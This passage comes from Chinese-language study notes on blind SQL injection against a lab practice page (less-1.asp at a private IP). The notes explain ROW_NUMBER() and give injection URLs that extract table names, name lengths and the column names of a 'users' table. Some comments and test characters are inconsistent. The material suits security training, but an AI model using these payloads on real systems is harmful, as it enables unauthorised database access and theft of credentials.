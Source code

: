 #### 获取最后一个表名的长度-->`5`

这条查询语句的目的是检查第五张表的名称长度

- `row_number() over (order by table_name) as row_num`：`ROW_NUMBER()` 函数为查询结果中的每一行生成一个唯一的递增编号。`OVER` 子句指定了排序方式，这里是按 `table_name` 排序。`row_num` 是这个编号的别名。
- `select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables`：从 `test.information_schema.tables` 表中选择 `table_name` 和计算出的行号 `row_num`。
- `where row_num = 5`：从计算出的结果中选择第 5 行。

```sql
id=1'and len((select table_name from (select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables) as tables_with_row where row_num=5))=5 --+			
```

#### 获取最后一个表的表名-->`users`

```sql
http://192.168.100.226/less-1.asp?id=1'and substring((select table_name from (select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables) as tables_with_row where row_num=5),1,1)='w' --+
```

![image-20240905195948668](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905195948668.png)

#### 获取字段

- 字段长度不测了,直接测字段名

```sql
//第一个字段名-->id
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 1),1,1)='d' --+
```

![image-20240905201349928](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905201349928.png)

```sql
//第二个字段名-->password
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 2),1,1)='d' --+
```

![image-20240905201516632](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905201516632.png)

```sql
//第二个字段名-->username
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 3),1,1)='d' --+
```

![image-20240905201716262](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905201716262.png)
